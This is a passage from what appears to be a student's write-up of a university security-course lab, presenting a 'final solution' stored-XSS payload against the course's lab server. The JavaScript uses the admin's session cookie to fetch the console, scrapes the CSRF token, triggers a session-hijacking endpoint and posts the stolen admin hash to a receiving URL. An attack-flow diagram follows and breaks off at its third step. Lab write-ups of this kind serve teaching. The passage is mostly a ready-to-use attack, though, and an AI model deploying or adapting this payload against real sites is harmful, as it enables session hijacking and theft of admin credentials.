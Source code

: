 This prevents the exploit from breaking when responses aren't as expected.

## Final Solution: Fetch-Based Approach

### The Complete Payload

```javascript
<script>
window.gotYou = true;
fetch('https://cs6262.gtisc.gatech.edu/console', {
    credentials: 'include'
} )
.then(function(response) {
    return response.text();
})
.then(function(html) {
    var csrfMatch = html.match(/name="csrfmiddlewaretoken"\s+value="([^"]+)"/);
    if (!csrfMatch) return;
    var csrfToken = csrfMatch[1];

    fetch('https://cs6262.gtisc.gatech.edu/session-hijacking/gguruvelli3', {
        method: 'POST',
        headers: {
            'X-CSRFToken': csrfToken
        },
        credentials: 'include'
    } )
    .then(function(res) {
        if (res.ok) return res.json();
        else return {};
    })
    .then(function(data) {
        if (data.hash) {
            fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
                method: 'POST',
                body: 'admin_hash=' + data.hash
            } );
        }
    });
});
</script>
```

### Attack Flow

```
┌─────────────────────────────────────────────────────────────┐
│ 1. Attacker submits malicious post with XSS payload        │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 2. Admin views post in admin console                       │
│    - XSS payload executes in admin's browser               │
│    - window.gotYou = true (autograder flag)                │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 3. First fetch: GET /console                               │
│    - credentials: 'include' sends admin's HttpOnly cookie  │
│    - Server validates session and returns admin console    │
└────────────────────┬────────────────────────────────────────┘
                     │
```